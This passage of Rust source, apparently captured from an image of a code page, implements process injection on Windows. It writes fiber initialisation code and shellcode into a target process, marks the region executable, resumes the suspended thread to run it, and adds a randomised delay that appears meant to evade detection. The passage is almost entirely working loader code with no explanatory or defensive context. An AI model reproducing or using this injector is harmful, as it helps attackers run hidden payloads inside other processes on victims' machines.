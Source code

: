 ```rust
        process_info.hProcess,
        base_address,
        fiber_init_code.as_ptr() as *const c_void,
        fiber_init_code.len(),
        &mut number_of_bytes_written,
    );
    
    if result == 0 || number_of_bytes_written != fiber_init_code.len() {
        let error = GetLastError();
        CloseHandle(process_info.hProcess);
        CloseHandle(process_info.hThread);
        return Err(format!("Failed to write fiber init code: {}", error).into());
    }
    
    // Write the actual shellcode after the fiber init code
    let shellcode_addr = (base_address as usize + 512) as *mut c_void; // Offset to ensure alignment
    let result = WriteProcessMemory(
        process_info.hProcess,
        shellcode_addr,
        code.as_ptr() as *const c_void,
        code.len(),
        &mut number_of_bytes_written,
    );
    
    if result == 0 || number_of_bytes_written != code.len() {
        let error = GetLastError();
        CloseHandle(process_info.hProcess);
        CloseHandle(process_info.hThread);
        return Err(format!("Failed to write shellcode: {}", error).into());
    }
    
    // Change memory protection to allow execution
    let result = VirtualProtectEx(
        process_info.hProcess,
        base_address,
        fiber_init_code.len() + code.len() + 512,
        PAGE_EXECUTE_READ,
        &mut old_protection,
    );
    
    if result == 0 {
        let error = GetLastError();
        CloseHandle(process_info.hProcess);
        CloseHandle(process_info.hThread);
        return Err(format!("Failed to change memory protection: {}", error).into());
    }
    
    // Resume the thread to execute our fiber initialization code
    let result = ResumeThread(process_info.hThread);
    if result == 0xFFFFFFFF {
        let error = GetLastError();
        CloseHandle(process_info.hProcess);
        CloseHandle(process_info.hThread);
        return Err(format!("Failed to resume thread: {}", error).into());
    }
    
    // Add small delay to allow process initialization
    let delay = rand::random::<u32>() % 200 + 100;
    win::Sleep(delay);
    
    // Clean up handles
    CloseHandle(process_info.hProcess);
```